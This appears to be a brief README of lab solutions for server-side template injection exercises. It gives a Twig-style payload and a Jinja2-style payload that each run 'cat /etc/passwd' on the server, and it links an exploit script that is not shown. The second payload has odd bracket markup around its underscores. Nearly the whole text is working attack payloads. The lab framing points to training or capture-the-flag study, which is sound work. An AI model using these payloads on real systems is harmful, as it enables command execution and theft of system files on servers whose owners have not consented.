## Lab 1
  `{{['cat /etc/passwd']|filter('system')}}`

## Lab 2
  ` {__{ self._[]_init_[]_._[]_globals_[]_._[]_builtins_[]_._[]_import_[]_('os').popen('cat /etc/passwd').read() }__}`

## Lab 3
  Run [exploit.py](./lab3/exploit.py)